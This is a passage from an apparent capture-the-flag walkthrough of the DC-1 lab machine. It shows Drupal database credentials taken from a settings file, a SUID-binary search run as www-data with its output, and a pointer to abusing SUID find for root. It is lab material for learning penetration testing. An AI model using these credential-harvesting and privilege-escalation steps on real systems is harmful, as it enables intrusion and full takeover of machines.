 ```bash
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

/**

```
We got a second flag on the system. Let's check for file permissions with a SUID bit.
```bash
www-data@DC-1:/var/www$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs

```
It looks like there is a SUID bit set on `/usr/bin/find`
This could be used to escalate our privileges, see: https://gtfobins.github.io/gtfobins/find/#suid
